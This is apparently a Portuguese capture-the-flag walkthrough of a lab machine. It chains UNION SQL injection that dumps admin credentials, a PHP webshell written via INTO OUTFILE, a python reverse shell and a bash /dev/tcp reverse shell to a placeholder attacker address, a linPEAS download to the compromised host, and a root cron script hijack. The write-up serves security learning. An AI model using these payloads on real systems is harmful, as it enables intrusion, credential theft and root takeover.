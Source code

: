 ## Varredura nmap:

Como primeiro passo precisamos saber quais serviços estão sendo executados nos bastidores e quais portas estão abertas.
Então, vamos usar uma ferramenta chamada  **nmap.
Ports:**

```
Porta 22 - SSH
Porta 80 - HTTP
Porta 111 - RCPBIND
Porta 3306 - MYSQL
```
## Varredura ffuf:

Usaremos uma ferramenta chamada  **ffuf** , que usa uma lista de palavras existente de possíveis nomes de diretórios comuns e
tentará carregar todos os nomes de diretórios nessa lista de palavras e, então, olhará o código de status.(Se estiver usando
Kali ou ParrotOS, você pode encontrar essas listas de palavras em /usr/share/wordlists/dirbuster)


Temos a página de administração → **/admin** , mas não temos a senha.
Infelizmente, o campo **login** não está vulnerável a **SQLi.**

**search.php**


Temos um campo **"Search"** , vou escrever a palavra **"teste"** neste campo.
E ao passar teste para esse campo, ele nos retorna a **primeira flag** =)

## SQL Injection

O próximo passo é tentaremos injetar alguns comandos de **SQLi** pra verificar se esse parâmetro é vulnerável a **SQL
injection.**
Primeiro, precisamos identificar o número de colunas da tabela.


```
' union select 1,2,3,4,5,6#
```
Não retornou nada, vamos aumentar o número das colunas.

```
' union select 1,2,3,4,5,6,7#
```
Certo, aparentemente temos **7** colunas, e o número **2** foi refletido, vamos usar a coluna **2** para obter informações do banco de
dados, usarei o seguinte comando para ver qual é a versão do banco de dados.

```
' union select 1,@@version,3,4,5,6,7#
```

O resultado da consulta é **5.5.68-Maria-DB** , agora irei pegar o nome do banco de dados.

```
' union select 1,database(),3,4,5,6,7#
```
Temos o nome do banco de dados, agora pegarei os nomes das tabelas desse banco de dados.

```
' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news'#
```

**tbladmin
tblcategory
tblcomments
tblpages
tblposts
tblsubcategory**

Temos os nomes das 6 tabelas, a tabela mais importante para nós é a tabela " **tbladmin** ", então iremos listar as colunas dessa
tabela.

```
' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin'#
```

**id
AdminUserName
AdminPassword
AdminEmailid
Is_Active
CreationDate
UpdationDate**

Para nós as mais importantes são **AdminUserName & AdminPassword,** então irei pegar os valores dessas, aqui vamos usar
a função **concat** que me permite adicionar duas ou mais expressões juntas.

```
' union select 1,concat(AdminUserName,":",AdminPassword),3,4,5,6,7 from tbladmin#
```
_O_ **_Bcrypt_** _oferece uma maior segurança do que os outros algoritmos criptográficos porque contém uma variável que é
proporcional à quantidade de processamento necessário para criptografar a informação desejada, tornando-o resistente a
ataques do tipo “força-bruta”._


Portanto não será possível quebrar esse **hash** 😧
Mas, como temos **Injeção de SQL** , podemos tentar escrever uma webshell **php** em algum diretório que temos permissão de
escrita.
**Payload:**

```
<?php system($_GET['cmd']) ?>
```
Depois de testar alguns diretórios, como:
/var/www/html
/var/www/html/images
/var/www/html/vendor
Consigo gravar no diretório **/var/www/html/includes** o arquivo **cmd.php** que contém a payload.
Comando **SQL** utilizado para gravar o arquivo:

```
'union select 1,"<?php system($_GET['cmd']) ?>",3,4,5,6,7 into outfile "/var/www/html/includes/cmd.php"#
```
Portanto se acessarmos **/includes,** veremos que nosso arquivo foi gravado com sucesso =).

Para executar comandos no sistema iremos passar **/includes/cmd.php?cmd** = **<comando>**
Aqui vou utilizar o comando **id**

```
http://$site/includes/cmd.php?cmd=id
```

Ok, temos execução de código remoto **(RCE)** no servidor, próximo passo será pegar uma **reverse shell**.
Para isso, vamos utilizar o comando **whereis python**

```
http://$site/includes/cmd.php?cmd=whereis python
```

Ok, temos **python2** no servidor, então, utilizaremos uma reverse shell em python2:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-VPN>",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
Ouvinte do netcat para recebermos a conexão:

```
http://$site/includes/cmd.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-VPN>",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
E recebemos a conexão 😀


## Shell tty

Atualizando shell simples para TTYs totalmente interativos.

```
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo;fg
Enter
export TERM=xterm
```
Indo na raiz → / do sistema encontramos a nossa **segunda flag.**

## Privesc

h **ttps://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
LinPEA** S é um script que procura caminhos possíveis para escalar privilégios em hosts Linux / Unix * / MacOS. As
verificações são explicadas em **https://book.hacktricks.xyz/linux-unix/privilege-escalation.**
Baixando o **LinPEAS na nossa máquina.**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Agora, iremos subir um servidor em python na nossa máquina para podermos enviar o **LinPEAS** pro servidor que nós
comprometemos.

No servidor que comprometemos, iremos dar os seguintes comandos:

```
cd /tmp
wget http://<IP-VPN>/linpeas.sh
chmod +x linpeas.sh
```
```
./linpeas.sh
```

## Escalonamento de privilégios do Linux explorando Cronjobs:

### O que é um cron job?

_Os_ **_Cron Jobs_** _são usados para agendar tarefas executando comandos em datas e horários específicos no servidor. Eles são
mais comumente usados para tarefas de administrador de sistemas, como backups ou limpeza de diretórios /tmp/ e assim por
diante. A palavra Cron vem do crontab e está presente no diretório /etc._
Indo até **/opt/lion** temos um arquivo **lion.bakcup.sh** que é um cronjob do usuário root.
E pra nossa felicidade, temos permissão de escrita nesse arquivo.
Podemos colocar uma shell reversa dentro desse arquivo.
Como é um cronjob do usuário **root** , esse arquivo está configurado para ser executado a cada 1 minuto.

Agora iremos editar esse arquivo e colocar nossa reverse shell.
**Payload:**

```
#!/bin/bash
/bin/bash -c 'sh -i >& /dev/tcp/<IP-VPN>/1337 0>&1'
```

Após salvar, iremos abrir o ouvinte do netcat para podermos receber a conexão:

Agora basta esperar 1 minuto, que é o tempo de execução que está configurado no cron job.
E temos shell de root =), agora basta ler a **última flag.**


